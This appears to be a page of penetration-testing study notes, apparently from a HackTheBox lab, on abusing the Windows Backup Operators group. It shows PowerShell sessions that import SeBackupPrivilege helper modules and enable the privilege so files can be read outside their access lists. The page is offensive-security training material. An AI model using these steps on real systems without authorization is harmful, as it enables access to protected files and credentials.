 # Windows Built-in Groups

{% embed url="https://ss64.com/nt/syntax-security_groups.html" %}
listing of all built-in Windows groups
{% endembed %}

{% embed url="https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/appendix-b--privileged-accounts-and-groups-in-active-directory" %}
listing of privileged accounts and groups in Active Directory
{% endembed %}

## Backup Operators

Members of this group can grant `SeBackup` and `SeRestore` privileges to its members, This group has SeBackupPrivilege which allows us to list any folder contents without being in the ACL. We can't use a copy command but have to programmatically copy the data.

{% embed url="https://github.com/giuliano108/SeBackupPrivilege" %}
Use SeBackupPrivilege to access objects you shouldn't have access
{% endembed %}

**Importing Libraries**

```powershell-session
PS C:\htb> Import-Module .\SeBackupPrivilegeUtils.dll
PS C:\htb> Import-Module .\SeBackupPrivilegeCmdLets.dll
```

**Verifying SeBackupPrivilege is Enabled**

```powershell-session
PS C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeMachineAccountPrivilege     Add workstations to domain     Disabled
SeBackupPrivilege             Back up files and directories  Disabled
SeRestorePrivilege            Restore files and directories  Disabled
SeShutdownPrivilege           Shut down the system           Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

```powershell-session
PS C:\htb> Get-SeBackupPrivilege

SeBackupPrivilege is disabled
```

**Enabling SeBackupPrivilege**

```powershell-session
PS C:\htb> Set-SeBackupPrivilege
PS C:\htb> Get-SeBackupPrivilege

SeBackupPrivilege is enabled
```
